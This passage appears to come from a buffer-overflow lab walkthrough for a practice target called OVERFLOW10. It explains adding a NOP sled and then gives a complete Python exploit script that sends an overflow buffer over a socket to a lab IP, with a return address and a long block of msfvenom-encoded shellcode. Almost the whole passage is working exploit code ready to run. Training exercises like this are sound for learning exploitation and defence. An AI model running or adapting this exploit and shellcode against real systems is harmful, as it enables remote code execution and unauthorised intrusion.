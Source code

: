 Copy the generated C code strings and integrate them into your exploit script payload variable.

### Prepend NOPs

Encoders used in msfvenom may require additional space in memory for the payload to decode and execute so we can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16
```

### Exploit

Now our exploit script should be something like this

```
import socket

ip = "10.10.112.53"
port = 1337

prefix = "OVERFLOW10 "
offset = 537
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload= ("\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\xa3\x3b\x63\x1c\x83\xee\xfc\xe2\xf4\x5f\xd3\xe1\x1c"
"\xa3\x3b\x03\x95\x46\x0a\xa3\x78\x28\x6b\x53\x97\xf1\x37"
"\xe8\x4e\xb7\xb0\x11\x34\xac\x8c\x29\x3a\x92\xc4\xcf\x20"
"\xc2\x47\x61\x30\x83\xfa\xac\x11\xa2\xfc\x81\xee\xf1\x6c"
"\xe8\x4e\xb3\xb0\x29\x20\x28\x77\x72\x64\x40\x73\x62\xcd"
"\xf2\xb0\x3a\x3c\xa2\xe8\xe8\x55\xbb\xd8\x59\x55\x28\x0f"
"\xe8\x1d\x75\x0a\x9c\xb0\x62\xf4\x6e\x1d\x64\x03\x83\x69"
"\x55\x38\x1e\xe4\x98\x46\x47\x69\x47\x63\xe8\x44\x87\x3a"
"\xb0\x7a\x28\x37\x28\x97\xfb\x27\x62\xcf\x28\x3f\xe8\x1d"
"\x73\xb2\x27\x38\x87\x60\x38\x7d\xfa\x61\x32\xe3\x43\x64"
"\x3c\x46\x28\x29\x88\x91\xfe\x53\x50\x2e\xa3\x3b\x0b\x6b"
"\xd0\x09\x3c\x48\xcb\x77\x14\x3a\xa4\xc4\xb6\xa4\x33\x3a"
"\x63\x1c\x8a\xff\x37\x4c\xcb\x12\xe3\x77\xa3\xc4\xb6\x4c"
"\xf3\x6b\x33\x5c\xf3\x7b\x33\x74\x49\x34\xbc\xfc\x5c\xee"
"\xf4\x76\xa6\x53\x69\x09\xca\x55\x0b\x1e\xa3\x2a\x3f\x95"
"\x45\x51\x73\x4a\xf4\x53\xfa\xb9\xd7\x5a\x9c\xc9\x26\xfb"
"\x17\x10\x5c\x75\x6b\x69\x4f\x53\x93\xa9\x01\x6d\x9c\xc9"
"\xcb\x58\x0e\x78\xa3\xb2\x80\x4b\xf4\x6c\x52\xea\xc9\x29"
"\x3a\x4a\x41\xc6\x05\xdb\xe7\x1f\x5f\x1d\xa2\xb6\x27\x38"
"\xb3\xfd\x63\x58\xf7\x6b\x35\x4a\xf5\x7d\x35\x52\xf5\x6d"
"\x30\x4a\xcb\x42\xaf\x23\x25\xc4\xb6\x95\x43\x75\x35\x5a"
"\x5c\x0b\x0b\x14\x24\x26\x03\xe3\x76\x80\x83\x01\x89\x31"
"\x0b\xba\x36\x86\xfe\xe3\x76\x07\x65\x60\xa9\xbb\x98\xfc"
"\xd6\x3e\xd8\x5b\xb0\x49\x0c\x76\xa3\x68\x9c\xc9")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```